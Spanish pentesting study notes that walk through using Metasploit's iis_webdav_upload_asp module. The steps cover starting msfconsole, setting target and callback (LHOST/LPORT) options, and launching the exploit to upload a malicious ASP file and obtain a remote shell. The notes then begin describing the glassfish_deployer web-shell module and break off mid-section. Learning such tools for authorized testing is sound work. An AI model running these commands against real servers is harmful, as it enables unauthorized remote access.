 				1. **Iniciar Metasploit**:
				    
				    bash
				    
				    Copiar código
				    
				    `msfconsole`
				    
				2. **Seleccionar el módulo `iis_webdav_upload_asp`**:
				    
				    bash
				    
				    Copiar código
				    
				    `use exploit/windows/iis/iis_webdav_upload_asp`
				    
				3. **Configurar el objetivo (`RHOSTS`) y el archivo ASP malicioso**:
				    
				    - **`RHOSTS`**: La dirección IP o el nombre de host del servidor IIS vulnerable.
				    - **`RPORT`**: Puerto del servicio WebDAV, que por defecto suele ser el puerto **80** (HTTP) o **443** (HTTPS).
				    - **`LHOST`**: La IP de tu máquina atacante (la IP de callback para la sesión).
				    - **`LPORT`**: Puerto en tu máquina donde quieres recibir la conexión.
				    
				    Ejemplo de configuración:
				    
				    bash
				    
				    Copiar código
				    
				    `set RHOSTS <IP_del_servidor> set RPORT 80 set LHOST <IP_de_la_máquina_atacante> set LPORT 4444`
				    
				4. **Verificar opciones y lanzar el exploit**:
				    
				    bash
				    
				    Copiar código
				    
				    `show options exploit`
				    
				
			- ### Qué Ocurre al Ejecutar el Exploit
				
				- El módulo `iis_webdav_upload_asp` intenta lo siguiente:
				
					- **Carga un archivo ASP malicioso** en el servidor IIS usando WebDAV.
					- **Ejecuta el archivo ASP** cargado para obtener una **sesión remota** (una shell) en el servidor IIS.
				
				- Si el exploit es exitoso, tendrás acceso al sistema de archivos y posiblemente a comandos en el servidor.
	- ## Glassfish:
		- **Exploit para que aprovecha vulnerabilidades:**
			- El módulo `glassfish_deployer` de Metasploit es un exploit que aprovecha una vulnerabilidad en el servicio de despliegue de aplicaciones (Application Deployment) de **GlassFish** y **Oracle WebLogic Server**. Este módulo permite a un atacante remoto desplegar un archivo malicioso (como una _web shell_) en el servidor, lo que les da la capacidad de ejecutar comandos arbitrarios con los privilegios del servidor.
				- ### Descripción del Módulo
					
					- **Nombre del módulo:** `glassfish_deployer`
					- **Tipo de módulo:** Exploit
					- **Plataforma objetivo:** GlassFish, Oracle WebLogic Server
					- **Método de explotación:** Despliegue de aplicaciones maliciosas a través de la consola de administración de GlassFish o WebLogic.
				- ### Funcionamiento del Módulo
					